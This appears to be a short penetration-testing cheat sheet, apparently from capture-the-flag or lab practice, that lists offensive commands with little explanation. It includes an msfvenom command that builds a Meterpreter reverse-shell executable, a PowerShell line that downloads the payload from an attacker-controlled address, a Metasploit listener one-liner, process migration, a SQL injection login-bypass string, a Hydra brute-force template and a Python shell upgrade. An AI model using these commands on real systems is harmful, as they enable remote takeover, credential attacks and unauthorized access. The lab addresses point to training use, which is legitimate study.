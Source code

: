 

sql map

---

hashes.com

cyberchef.io





msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.245.232 LPORT=6667 -f exe -o shell.exe

powershell -c "Invoke-WebRequest -Uri 'http://10.10.245.232:8000/shell.exe' -OutFile 'c:\temp\shell.exe'"

msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.248.10; set lport 6666;set payload windows/meterpreter/reverse_tcp; exploit"

migrate -N explorer.exe

' or 1=1 -- -

hydra -l <username> -P <password_list> <target_ip> http-post-form "<url>:<post_data>:<failure_string>"

python -c “import pty; pty.spawn(‘/bin/bash’)”
